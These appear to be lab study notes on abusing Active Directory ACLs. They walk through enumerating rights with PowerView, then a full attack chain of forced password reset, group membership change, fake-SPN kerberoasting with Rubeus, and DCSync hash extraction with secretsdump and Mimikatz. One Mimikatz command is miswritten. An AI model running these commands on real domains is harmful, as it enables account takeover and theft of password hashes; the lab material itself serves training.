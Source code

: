 ## What are ACLs 
Lists that define who has access to what assets/ resource.
The Rules By themselves are called Access Control Entities 
#### Types of ACLs
1. Discretionary Access Control List (DACL)
	Defines which security principals are granted or denied access to an object.
	When a user requests access to an object the system checks for a DACL, without it, the user is given full rights. 
	If a DACL exists but does not have entries the system will deny access to all users.
	![[Pasted image 20230815201613.png]]
1. System Access Control List (SACL)
	Allow administrators to log access attempts made to secured objects. 
	![[Pasted image 20230815201621.png]]
#### Access Control Entities 
|**ACE**|**Description**|
|---|---|
|`Access denied ACE`|Used within a DACL to show that a user or group is explicitly denied access to an object|
|`Access allowed ACE`|Used within a DACL to show that a user or group is explicitly granted access to an object|
|`System audit ACE`|Used within a SACL to generate audit logs when a user or group attempts to access an object. It records whether access was granted or not and what type of access occurred|
##### Format of a ACE 
1. Security Identifier (SID) of the user/group that has access to the object
2. A Flag for denoting the type of ACE (table above)
3. A set of flags specify whether or not a child containers/ objects can inherit the given ACE 
4. An [access mask](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/7a53f60e-e730-4dfe-bbe9-b21b62eb790b?redirectedfrom=MSDN) which is a 32 bit value that defines the rights granted to an object. 
### Importance of ACEs
Attackers can utilise ACE entries to either further access or establish persistence.
They cannot be detected by vulnerability scanning tools and can go unchecked for many years. 

Can be viewed with BloodHound and abusable with Power View 
- `ForceChangePassword` abused with `Set-DomainUserPassword`
- `Add Members` abused with `Add-DomainGroupMember`
- `GenericAll` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `GenericWrite` abused with `Set-DomainObject`
- `WriteOwner` abused with `Set-DomainObjectOwner`
- `WriteDACL` abused with `Add-DomainObjectACL`
- `AllExtendedRights` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `Addself` abused with `Add-DomainGroupMember`
### Possible ACE attack methods 
![[Pasted image 20230815202538.png]]
## ACL Enumeration
### PowerView
Very Time consuming:
```powershell
Find-InterestingDomainAcl
```
Use a User that we have Control over:
```powershell
Import-Module .\PowerView.ps1

$sid = Convert-NameToSid <user>

Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

Google Object ACE Type.  or do a Reverse Search:
```powershell
 $guid= "00299570-246d-11d0-a768-00aa006e0529"
```

```powershell
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```
**Reverse Search with PowerView**
```powershell
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```
**Make a List of Domain Users**
```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```
**Useful Foreach Loop**
Read the File from before
```powershell
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\<USERNAME CHANGE>'}}
```

***Loop Through this process as needed***
## Abusing ACL 
### Example Attack
#### Authenticate as the initial user
```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\<user>', $SecPassword) 
```
#### Leverage GenericAll right
Create a secure string that will represent the password for the target user 
```powershell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

Change the Users Password
```powershell
 Import-Module .\PowerView.ps1
```

```powershell
 Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
#### Authenticate as new user
```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```
#### Add User to the target group
List users 
```powershell
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```

```powershell
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```
Confirm addition 
```powershell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

#### Perform kerbroasting on target user 
Create a fake SPN 
```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

```powershell
.\Rubeus.exe kerberoast /user:adunn /nowrap
```
Crack the hash

#### Clean up 
Remove the fake SPN 
```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```
Remove the user from the group 
```powershell
PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

```powershell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```
Reset the password 

## DCSync
### Description
Technique for stealing AD password databases using the Directory Replication Service Remote Protocol
Allows an attacker to mimic a DC to retrieve NTLM 

Need to have rights to perform domain replication.
	Replicating Directory Changes and Replicating Directory Changes All permissions set.
	Domain/Enterprise Admins and default domain administrators have this right by default.
### View Rights 
![[Pasted image 20230817141837.png]]

```powershell
Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```
**or**
Do this in powerview using [Get-ObjectACL](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainObjectAcl/)
```powershell
$sid= "<users SID>"
```

```powershell
> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

### Extracting Hashes using Secrets Dump
```shell
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```
Optional flags:
	-just-dc-ntlm
	-just-dc-user
	-pwd-last-set
	-history
	-user-status

If we see ..cleartext, this is accounts with [reversible encryption](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption)
Key to decrypt the RC4 is stored in the [registry](https://learn.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)
#### View users with reversible encryption
```powershell
 Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```
Check for options
```powershell
 Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```
Display the password 
```shell
cat inlanefreight_hashes.ntds.cleartext 
```
### Using MimiKatz
```cmd
.\mimikatz.exe
```

```cmd
sadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```
